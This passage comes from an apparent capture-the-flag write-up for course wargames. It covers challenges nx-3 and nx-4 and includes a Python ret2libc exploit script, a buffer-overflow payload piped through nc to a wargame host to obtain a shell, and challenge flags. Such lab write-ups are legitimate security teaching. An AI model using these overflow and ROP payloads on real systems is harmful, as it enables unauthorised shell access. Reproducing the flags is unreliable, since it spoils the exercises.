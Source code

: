 ```python
puts_address = int(resp, 16)
system_address = puts_address - 0x24f00
bin_sh_address = puts_address + 0xfbd6b

print hex(system_address)
print hex(bin_sh_address)

ret_rop_gadget = 0x08048331

r.sendline("A" + p32(ret_rop_gadget) * 331 + p32(system_address) + "BBBB" + p32(bin_sh_address))

r.interactive()
```


==============================
==============================

nx-3 | swrop
===========================

Flag: `6447{1feda6d2-8033-4c40-86cb-f46c2ad98888}`

General overview of problems faced
-------------------------------------
I was using wrong address to point to bin/bash

List of vulnerabilities
--------------------
1. The program uses a `read` function call and allows up to 256 bytes to be written but the buffer being written to is less than 256 therefore the buffer can be overflown. We can use ret to libc to get a shell

Steps to exploit
------------------
1. Send 140 bytes of padding + address to `call system` in little endian format ("\x90\x83\x04\x08") + a fake return address + the address to bin/bash ("\x00\x86\x04\x08")


Script/Command used
------------------
```bash
(python -c 'print "A"*140 + "\x90\x83\x04\x08" + "BBBB" + "\x00\x86\x04\x08"'; cat - ) | nc wargames.6447.sec.edu.au 8003
```


==============================
==============================

nx-4 | static
===========================

Flag: `6447{698fe9fd-1c5e-4992-b2c0-6df10e7e718a}`

General overview of problems faced
-------------------------------------
Learned to used ropper in order to create a rop-chain
